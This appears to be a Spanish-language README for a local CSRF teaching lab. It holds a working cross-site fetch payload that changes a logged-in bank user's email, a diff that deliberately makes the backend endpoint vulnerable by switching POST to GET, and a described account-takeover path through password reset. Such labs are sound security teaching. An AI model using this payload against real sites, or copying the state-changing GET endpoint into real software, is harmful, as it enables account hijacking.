 # 03 CSRF

## Instalación

- Hacemos un _npm install_ en el directorio de trabajo que es el 03-CSRF e instalamos todas las dependencias de las 3 apps.

```
npm install
```

- Podemos arrancar las apps con _npm start_, o arrancarlas mejor individualmente para ver el mensaje por la consola de la app de backend cuando se produzca el ataque.

```
npm start

```

- Una vez que arrancamos el frontend y el backend de mybank, podemos logearnos usando:

```

email: user@email.com
password: test

```

- Ya logeado podemos inspeccionar las _dev tools_ para ver que dentro de _Application_ tenemos almecenada nuestra cookie.

- Arrancamos a frontend-chupichuli que se abría en _localhost:1235_ esta no se abrirá automáticamente, en el navegador. Y podemos simular que nos han enviado un correo y hemos pinchado en el enlace y se ha abierto en una nueva pestaña.

- Dentro de la la ruta _frontend-chupilchuli/src/index.html_, tenemos un fetch comentado. Como está ahora mismo sería seguro y no se relaizaría el CSRF.

- Y si entramos en las _dev tools_ en la consola nos aparece lo siguiente:

```
Failed to load resource: the server responded with a status of 405 (Method Not Allowed)
```

- Pero si descomentamos el CSRF con get. 

_frontend-chupilchuli/src/index.html_

```diff
<script>
      // Esto es CSRF con post
      // fetch("/api/security/edit", {
      //   method: "POST",
      //   credentials: "include",
      //   headers: {
      //     "Content-Type": "application/json",
      //   },
      //   body: JSON.stringify({
      //     email: "hack@hacker.com",
      //   }),
      // });
      // Esto es CSRF con get
      fetch("http://localhost:3000/api/security/edit?" +
        new URLSearchParams({
                    email: "hack@hacker.com",
        }), {
        method: "GET",
        credentials: "include",
      })
        .then((response) => response.text())
        .then((text) => console.log(text))
        .catch((error) => console.log(error));
    </script>
```
Y vamos a nuestro backend a _backend-mybank/src/pods/security/security.rest-api.js_ al _endpoint_ de _edit_, y cambiamos el método _post_ por _get_.

_backend-mybank/src/pods/security/security.rest-api.js_


```diff
- .post("/edit", authenticationMiddleware, async (req, res, next) =>
+ .get("/edit", authenticationMiddleware, async (req, res, next) => {
    try {
      const newUserEmail = await userRepository.updateEmail(
        req.userSession?.id,
        req.body.email
      );
      console.log(
        `User ${req.userSession?.id} email changed to ${newUserEmail}`
      );
      res.send("Email changed");
    } catch (error) {
      next(error);
    }
  });

```

- Podemos ver por la console de _backend-mybank_ que se ha producido el ataque y hemos cambiado el correo.

```
[type-check:watch] 
[type-check:watch] 
[type-check:watch] 14:48:24 - Found 0 errors. Watching for file changes.
[start:dev       ] Server ready at port 3000
[start:dev       ] User 1 email changed to hack@hacker.com
```

- Y ahora podríamos entrar en he perdido mi contraseña y cambiarla sin ningún problema y hacer en la aplicación de mibank lo que quisiéramos.

